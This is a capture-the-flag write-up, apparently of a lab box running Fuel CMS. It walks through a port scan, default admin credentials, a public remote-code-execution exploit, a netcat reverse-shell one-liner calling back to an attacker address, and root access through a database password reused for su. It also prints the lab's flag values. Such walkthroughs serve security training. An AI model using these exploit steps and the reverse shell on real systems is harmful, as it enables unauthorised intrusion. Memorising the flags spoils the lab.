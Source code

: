 
---

### Nmap

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))

```

![[ignite-banner.png]]


> http://10.10.112.35/robots.txt
```
User-agent: *
Disallow: /fuel/
```


![[ignite-cred.png]]

### Credentials

> [http://10.10.240.208/fuel](http://10.10.240.208/fuel)

`admin` : `admin`

### Exploits

> searchsploit fuel cms

```
------------------------------------------------------------ ---------------------------------
 Exploit Title                                              |  Path
------------------------------------------------------------ ---------------------------------
fuel CMS 1.4.1 - Remote Code Execution (1)                  | linux/webapps/47138.py
Fuel CMS 1.4.1 - Remote Code Execution (2)                  | php/webapps/49487.rb
Fuel CMS 1.4.1 - Remote Code Execution (3)                  | php/webapps/50477.py
Fuel CMS 1.4.13 - 'col' Blind SQL Injection (Authenticated) | php/webapps/50523.txt
Fuel CMS 1.4.7 - 'col' SQL Injection (Authenticated)        | php/webapps/48741.txt
Fuel CMS 1.4.8 - 'fuel_replace_id' SQL Injection (Authentic | php/webapps/48778.txt
Fuel CMS 1.5.0 - Cross-Site Request Forgery (CSRF)          | php/webapps/50884.txt
------------------------------------------------------------ ---------------------------------
Shellcodes: No Results

```


### Initial Foothold

```
$ python2 47138.py
cmd:id
systemuid=33(www-data) gid=33(www-data) groups=33(www-data)

--SNIP--

```

**reverse shell payload**:

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.3.17 9999 >/tmp/f`

`nc -lnvp 9999`

```
$ nc -lnvp 9999
listening on [any] 9999 ...
connect to [10.9.3.17] from (UNKNOWN) [10.10.241.205] 51334
/bin/sh: 0: can't access tty; job control turned off
$ 
```

**flag.txt**

`6470e394cbf6dab6a91682cc8585059b`

### Privilage Escalation


Found configuration files:

```
www-data@ubuntu:/var/www/html$ ls
ls
README.md  assets  composer.json  contributing.md  fuel  index.php  robots.txt
```

Lets try to find password reuse:

```
www-data@ubuntu:/var/www/html$ ls fuel
ls fuel
application  data_backup  install   modules
codeigniter  index.php	  licenses  scripts
```

most of them are empty, or not interesting

```
www-data@ubuntu:/var/www/html/fuel$ cd application
cd application
www-data@ubuntu:/var/www/html/fuel/application$ ls
ls
cache	controllers  helpers  index.html  libraries  migrations  third_party
config	core	     hooks    language	  logs	     models	 views
```

Found config directory,
let's search for something interesting

```
www-data@ubuntu:/var/www/html/fuel/application$ cd config
cd config
www-data@ubuntu:/var/www/html/fuel/application/config$ ls
ls
MY_config.php	     constants.php	google.php     profiler.php
MY_fuel.php	     custom_fields.php	hooks.php      redirects.php
MY_fuel_layouts.php  database.php	index.html     routes.php
MY_fuel_modules.php  doctypes.php	memcached.php  smileys.php
asset.php	     editors.php	migration.php  social.php
autoload.php	     environments.php	mimes.php      states.php
config.php	     foreign_chars.php	model.php      user_agents.php
```

Found database.php, may contain root password (password reuse)
let's look into it.

```
--SNIP--

$db['default'] = array(
	'dsn'	=> '',
	'hostname' => 'localhost',
	'username' => 'root',
	'password' => 'mememe',
	'database' => 'fuel_schema',
	'dbdriver' => 'mysqli',
	'dbprefix' => '',
	'pconnect' => FALSE,
	'db_debug' => (ENVIRONMENT !== 'production'),
	'cache_on' => FALSE,
	'cachedir' => '',
	'char_set' => 'utf8',
	'dbcollat' => 'utf8_general_ci',
	'swap_pre' => '',
	'encrypt' => FALSE,
	'compress' => FALSE,
	'stricton' => FALSE,
	'failover' => array(),
	'save_queries' => TRUE
);

--SNIP--
```

Found
```
'username' => 'root'
'password' => 'mememe'
```

Let's try `root` with `mememe`

```
www-data@ubuntu:/var/www/html/fuel/application/config$ su -
su -
Password: mememe

root@ubuntu:~#
```

Got it!

**root.txt**

`b9bbcb33e11b80be759c4e844862482d`
